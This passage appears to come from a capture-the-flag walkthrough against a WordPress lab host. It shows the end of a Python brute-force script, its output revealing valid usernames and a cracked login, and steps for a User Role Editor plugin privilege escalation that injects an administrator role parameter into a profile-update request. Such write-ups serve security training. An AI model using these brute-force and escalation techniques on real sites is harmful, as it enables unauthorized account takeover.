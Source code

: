 ```Python
                break

if __name__ == "__main__":
    p1 = log.progress("Brute Force")
    userBruteForce()
```
Let's execute it:

```Shell
sudo python WPbf.py
[◤] Brute Force: Trying user zylen
[*] Valid username: admin

[*] Valid username: graham

[*] Valid username: mark

[*] Valid Credentials mark
:helpdesk01

[*] Valid username: sarah
```
![Mark Wordpress](images/mark.png)

Now, we have to get admin perm. Let's try privilege escalation via plugin. 

The procedure is (https://vk9-sec.com/wordpress-plugin-user-role-editor-4-24-privilege-escalation/):
1. Go to Users - Your Profile
2. Capture web traffic using a proxy, I’d use BurpSuite, and then, click on Update Profile
3. Add &ure_other_roles=administrator to the end of the POST data, and then forward the request and follow the redirects.
